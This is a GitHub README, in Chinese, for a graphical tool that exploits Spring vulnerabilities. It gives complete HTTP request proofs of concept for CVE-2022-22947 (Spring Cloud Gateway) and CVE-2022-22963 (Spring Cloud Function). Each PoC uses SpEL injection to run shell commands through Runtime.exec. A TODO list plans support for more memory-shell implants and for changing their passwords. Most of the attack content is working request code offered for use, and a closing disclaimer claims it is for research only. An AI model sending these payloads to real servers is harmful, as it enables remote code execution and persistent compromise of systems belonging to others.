




<h1 align="center" >Spring_All_Reachable</h1>
<h3 align="center" >一款针对Spring漏洞框架进行快速利用的图形化工具</h3>
 <p align="center">
    <a href="https://github.com/savior-only/Spring_All_Reachable"></a>
    <a href="https://github.com/savior-only/Spring_All_Reachable"></a>
    <a href="https://github.com/savior-only/Spring_All_Reachable"></a>
     <a href="https://github.com/savior-only/Spring_All_Reachable"></a>
  <a href="https://github.comsavior-only/Spring_All_Reachable"></a>
     <a href="https://github.com/savior-only"></a>
     <a href="https://github.com/savior-only"></a>
	</p>


# 📝 TODO

* Spring Core RCE
* 支持更多类型内存马
* 支持内存马密码修改

........


# :clapper:使用方法

### Spring Cloud Gateway命令执行（CVE-2022-22947）

#### 漏洞描述

Spring Cloud Gateway存在远程代码执行漏洞，该漏洞是发生在Spring Cloud Gateway应用程序的Actuator端点，其在启用、公开和不安全的情 况下容易受到代码注入的攻击。攻击者可利用该漏洞通过恶意创建允许在远程主机上执行任意远程请求。


#### 漏洞影响

​	VMWare Spring Cloud GateWay 3.1.0  
​	VMWare Spring Cloud GateWay >=3.0.0，<=3.0.6  
​	VMWare Spring Cloud GateWay <3.0.0

#### 漏洞poc

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

#### 工具使用








### Spring Cloud Function SpEL 远程代码执行 (CVE-2022-22963)

#### 漏洞描述

Spring Cloud Function 是Spring cloud中的serverless框架。

Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成 Spel 表达式注入漏洞。

攻击者可通过该漏洞执行任意代码。

#### 漏洞影响

org.springframework.cloud:spring-cloud-function-context（影响版本：3.0.0.RELEASE~3.2.2）

#### 漏洞poc

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

#### 工具使用




# :book: 参考项目

[https://starchart.cc/0x727/SpringBootExploit](https://github.com/0x727/SpringBootExploit)

[https://github.com/whwlsfb/cve-2022-22947-godzilla-memshell](https://github.com/whwlsfb/cve-2022-22947-godzilla-memshell)


# :b:免责声明

​	此工具仅作为网络安全攻防研究交流，请使用者遵照网络安全法合理使用！ 如果使用者使用该工具出现非法攻击等违法行为，与本作者无关！


